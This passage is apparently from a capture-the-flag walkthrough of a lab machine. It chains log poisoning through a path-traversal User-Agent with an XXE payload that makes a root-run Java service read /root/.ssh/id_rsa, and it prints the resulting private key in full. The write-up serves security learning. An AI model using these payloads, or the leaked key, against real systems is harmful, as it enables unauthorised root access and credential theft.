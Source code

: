 Now we can upload the file to `woodenk`'s home directory, and in the same directory, craft a `b0d_creds.xml` file:  
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///root/.ssh/id_rsa"> ]>
<credits>
  <author>damian</author>
  <image>
    <uri>../../../../../../home/woodenk/root.jpg</uri>
    <hello>&ent;/hello>
    <views>2</views>
  </image>
  <totalviews>4</totalviews>
</credits>
```
the `&ent;` value should be then be replaced with root's ssh key.  
Now we can poison the log by sending the below user agent in an HTTP request:  
```http
POST /search HTTP/1.1
Host: 10.10.11.170:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0||/../../../../../../../../home/woodenk/root.jpg
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 5
Origin: http://10.10.11.170:8080
Connection: close
Referer: http://10.10.11.170:8080/stats?author=woodenk
Upgrade-Insecure-Requests: 1
Sec-GPC: 1

name=
```
now the main function will parse the log and the `uri` variable will be filled with `/../../../../../../../../home/woodenk/root.jpg`.  
This path will be passed to `getArtist(uri)` which will return `../../../home/woodenk/b0d` and this value will be assigned to `artist` value.  
Now, the xmlPath will be bult using `string xmlPath = (new StringBuilder()).append("/credits/").append(artist).append("_creds.xml").toString();` which in our case will result in something like: `/credits/../../../home/woodenk/b0d_creds.xml` and this path will be passed to `addViewTo(xmlPath)` .
This function will parse the `b0d_creds.xml` that will allow us to include external entity into the file, and since this process is running as root we will be able to read root's ssh key:  
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE replace>
<credits>
  <author>damian</author>
  <image>
    <uri>../../../../../../home/woodenk/root.jpg</uri>
    <hello>-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
QyNTUxOQAAACDeUNPNcNZoi+AcjZMtNbccSUcDUZ0OtGk+eas+bFezfQAAAJBRbb26UW29
ugAAAAtzc2gtZWQyNTUxOQAAACDeUNPNcNZoi+AcjZMtNbccSUcDUZ0OtGk+eas+bFezfQ
AAAECj9KoL1KnAlvQDz93ztNrROky2arZpP8t8UgdfLI0HvN5Q081w1miL4ByNky01txxJ
RwNRnQ60aT55qz5sV7N9AAAADXJvb3RAcmVkcGFuZGE=
-----END OPENSSH PRIVATE KEY-----</hello>
    <views>2</views>
  </image>
  <totalviews>4</totalviews>
</credits>
```
Now we can use this key to log in as root:  
```shell
```